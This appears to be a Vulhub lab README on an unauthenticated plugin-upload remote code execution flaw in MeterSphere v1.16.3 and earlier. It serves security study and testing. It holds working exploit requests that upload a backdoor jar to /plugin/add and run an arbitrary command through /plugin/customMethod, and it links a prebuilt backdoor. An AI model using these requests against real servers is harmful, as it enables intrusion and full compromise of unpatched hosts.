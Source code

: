 # MeterSphere Plugin Endpoint Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.

In the version v1.16.3 and before, MeterSphere's plugin API is unauthenticated and the attackers are able to upload plugins to the server and execute arbitrary code.

References:

- <https://xz.aliyun.com/t/10772>

## Vulnerable environment

Execute following command to start a MeterSphere server v1.16.3:

```
docker compose up -d
```

After the server is fully initialized, you can see the login page of MeterSphere on `http://your-ip:8081`.

## Exploit

Firstly, by visiting `http://your-ip:8081/plugin/list`, you can see that the success message is returned without being redirected to the login page, indicating that the plugin API can be accessed without authorization.

![](1.png)

Then, you should create a crafted evil plugin. Vulhub prepares a pre-built backdoor jar for it: <https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.1.0>.

Upload the evil jar plugin to `/plugin/add` interface:

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="Evil.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--

```

![](2.png)

> **Take care of bytes encoding by yourself if you use Burpsuite to send the package.**

Althrough there is an error message is respond, the JAR package path is already added into URL classloader which means we can exploit it.

Use following request to execute arbitrary command:

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "org.vulhub.Evil",
  "request": "id"
}
```

![](3.png)
